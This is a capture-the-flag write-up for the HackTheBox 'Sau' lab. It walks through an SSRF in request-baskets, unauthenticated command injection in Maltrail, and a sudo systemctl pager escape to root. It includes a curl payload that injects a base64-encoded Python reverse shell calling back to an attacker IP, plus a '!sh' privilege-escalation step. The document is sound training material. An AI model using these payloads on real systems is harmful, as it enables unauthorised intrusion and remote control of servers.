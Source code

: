# HackTheBox-Sau
## Reconnaissance
### First, we use nmap to see what services and at what ports are open/active in the server

<p align="center"><img src="images/nmap.png"></p>

### As we can see, we found 4 ports 2 that are open which are 22 (SSH) and 55555 (Unknown), and then 2 that are filtered which are 80 (HTTP) and 8338 (Unknown). First i'd like to check if the open port other than SSH is a web or not.

<p align="center"><img src="images/web.png"></p>

### And it is a web, and the web is a request basket. Request Basket is basically a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. So let's see if there's a vulnerability or even an exploit available for request basket.

<p align="center"><img src="images/research_exploit.png"></p>

### Apparently there's already a [POC](https://github.com/entr0pie/CVE-2023-27163) for this web app and the CVE for this vulnerability is [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request. So let's try using the POC and try with our own.

## Request Basket Exploitation

### Let's see how the web operates, first we create our basket

 <p align="center"><img src="images/create_basket.png"></p>
 <p align="center"><img src="images/basket.png"></p>

### Now let's see what's inside of it if we send a request to the url

<p align="center"><img src="images/inside_basket.png"></p>

### Now we see that our HTTP Request stored in here when we sent the request. We notice that there's a setting/configuration, let's see what's the configuration for this web app. 

<p align="center"><img src="images/conf.png"></p>

### Well well well....we can actually forward url. Let's see if we forward it to localhost with port 80 since we know from our recon that there's a filtered port 80

<p align="center"><img src="images/maltrail.png"></p>

### From my testing just by forwarding it to http://127.0.0.1:80, it doesn't show anything. Then i tried multiple combination of configuration. We are able to get this website called Maltrail. We able to get it by checking the "Proxy Response" option which basically it will send the response back to our client.

### So for using the [POC](https://github.com/entr0pie/CVE-2023-27163), we just have to download the script and then run it with this
> ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
### It will basically give us the same result as the previous method

## Maltrail Exploitation

### Now we see that this website is called maltrail with its version v0.53. Again as per usual let's see if there's a vulnerability or/and exploit for it.

### We found an [Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) and the [Vulnerability explanation of this version of Maltrail](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). We can see that Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process. We just have to do basically this
> curl 'http://10.10.11.224:55555' --data 'username=;`[COMMAND]`'
### So let's use that to exploit the vulnerability and reverse shell since we know there's port 22 open for SSH but first we have to change the forward url to http://127.0.0.1/login first since well from the POC and the explanation the url is not just the homepage of Maltrail but it's /login of the Maltrail website.

### I'm using this [web](https://www.revshells.com/) to make the reverse shell payload. I'm using the Python #1 assuming the web server has python in it.

### Then we stumble to a few obstacle, we can't just use the reverse shell without encoding it first cause there will be parse error. So let's see if we can use base64 and tweak a little bit the command. Then it still doesn't work so now i'm using Python #2 So now the payload becomes this
> curl 'http://10.10.11.224:55555/daa8fbp' --data 'username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTYuMzAiLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`'

<p align="center"><img src="images/revshell.png"></p>

### And voila we are able to get in using the payload that we made. Let's check what do we have in the current directory and where are we exactly

<p align="center"><img src="images/initialcheck.png"></p>

### Since there's nothing when we do ls, then we check where are we exactly, since we are not at home, let's try cd and then ls again

<p align="center"><img src="images/userflag.png"></p>

### We see now that we changed directory, we found our user flag

## Root Flag

### Since we see no other flag other than the flag.txt in the current working directory, and we try to become root here then let's use
> sudo -l

<p align="center"><img src="images/sudol.png"></p>

### Okay we see that this user can use /usr/bin/systemctl status trail.service, then let's run it

<p align="center"><img src="images/trailservice.png"></p>

### Then since we input something here, usually we'd test it using !/bin/sh or !sh

<p align="center"><img src="images/rootflag.png"></p>

### And we are able to get in, and able to get the root flag